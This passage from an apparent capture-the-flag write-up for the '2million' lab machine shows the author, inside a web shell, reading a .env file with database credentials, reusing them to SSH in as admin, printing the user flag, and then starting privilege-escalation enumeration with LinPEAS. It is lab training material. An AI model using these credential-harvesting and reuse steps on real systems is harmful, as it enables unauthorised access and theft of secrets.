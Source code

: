 ```php
            $types .= str_repeat($key, count($value));
            $finalParams = array_merge($finalParams, $value);
        }

        $stmt = $this->mysql->prepare($query);
        $stmt->bind_param($types, ...$finalParams);

        if (!$stmt->execute())
        {
            return false;
        }

        if (!$return)
        {
            return true;
        }

        return $stmt->get_result() ?? false;
    }
}
```

I see its using private variables for the host and password of the database, so I use `printenv` to see if its there.

Nothing... and then I run `ls -lha` and see `.env` file.

```
(remote) www-data@2million:/var/www/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Perfect, lets login.

```
$ ssh admin@2million.htb
admin@2million.htb's password:
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.70-051570-generic x86_64)
...
admin@2million:~$ cat /home/admin/user.txt
518f29b33469fb35e4c4303164b0f539
```

There's the user flag! 

Flag: `518f29b33469fb35e4c4303164b0f539`

## Root Flag

Running `linpeas.sh` from LinPEAS (once uploaded from a local http server) shows some interesting entries for Mail:
